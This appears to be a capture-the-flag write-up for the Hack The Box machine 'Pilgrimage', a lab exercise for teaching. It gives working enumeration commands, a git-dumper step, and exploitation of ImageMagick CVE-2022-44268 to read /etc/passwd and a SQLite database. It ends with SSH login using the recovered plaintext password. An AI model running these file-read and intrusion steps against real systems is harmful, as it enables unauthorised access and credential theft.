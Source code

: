 # HTB_Pilgrimage

## Synopsis
Pilgrimage is a Linux-based machine rated as easy difficulty, centered around a web application that exposes a Git repository. Upon analyzing the retrieved source code and file structure, a vulnerable version of ImageMagick is discovered—allowing arbitrary file reads by injecting a specially crafted tEXt chunk into a PNG image. This flaw is exploited to extract a SQLite database containing plaintext credentials, which are then used to gain SSH access to the system. Further enumeration uncovers a root-owned Bash script that executes a compromised version of Binwalk. By crafting another malicious PNG, the CVE-2022-4510 vulnerability is exploited to achieve Remote Code Execution (RCE) as root.

---

## Skills Required
- Basics of Web enumeration  
- Basics of Linux enumeration  

## Skills Learned
- Rudimentary source code review  
- Basic scripting  
- Structure of PNG files  

---

## Enumeration

### Nmap
An initial Nmap scan reveals SSH and Nginx services running on their respective default ports.  
The domain `pilgrimage.htb` is revealed, which we add to our hosts file.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.219 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.219
pgsql

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Feroxbuster
We run a feroxbuster scan to enumerate potentially exposed directories and endpoints.



feroxbuster --url http://pilgrimage.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt


Found: 
http://pilgrimage.htb/.git/
http://pilgrimage.htb/.git/logs/
http://pilgrimage.htb/assets/
http://pilgrimage.htb/assets/css/
http://pilgrimage.htb/assets/images/
http://pilgrimage.htb/assets/js/
http://pilgrimage.htb/tmp/
http://pilgrimage.htb/vendor/
http://pilgrimage.htb/vendor/jquery/
Git Dumper
The scan reveals an exposed .git directory. We use git-dumper to dump and recreate the repository.

git-dumper http://pilgrimage.htb/ ./pilgrimage_source

[+] Fetching http://pilgrimage.htb/.git/objects/...
[+] Running git checkout .
Foothold
The repository contains a custom ImageMagick binary:

./magick --version


Version: ImageMagick 7.1.0-49 beta
This version is vulnerable to CVE-2022-44268 (Arbitrary File Read via PNG tEXt chunk).

We use the following PoC:

git clone https://github.com/voidz0r/CVE-2022-44268.git
cd CVE-2022-44268
cargo run "/etc/passwd"
Identifying the Malicious PNG

identify -verbose image.png

png:text: 1 tEXt/zTXt/iTXt chunks were found
profile: /etc/passwd
After uploading the image and retrieving the modified version:


identify -verbose 64f59dc103cbb.png

Raw profile type:
726f6f743a783a30...
Extracting Data with Python
We decode the hex-encoded data from the image:

python3 -c 'print(bytes.fromhex("726f6f743a783a30..."))'

root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily:/home/emily:/bin/bash
...
SQLite DB Extraction
From the downloaded repo we find:

$db = new PDO('sqlite:/var/db/pilgrimage');
We exploit again, this time targeting the SQLite DB path:


cargo run "/var/db/pilgrimage"
Convert the hex data into an SQLite file:

with open("hex", "rb") as f:
    data = bytes.fromhex(f.read().decode())
with open("sql.db", "wb") as f:
    f.write(data)
Verify it's a valid DB:

file sql.db
pgsql

sql.db: SQLite 3.x database
Accessing Credentials


sqlite3 sql.db
sql

.tables
images  users

SELECT * FROM users;

emily|abigchonkyboi123
SSH Access
bash

ssh emily@pilgrimage.htb

Linux pilgrimage 5.10.0-23-amd64

emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
User flag can be found in /home/emily/user.txt
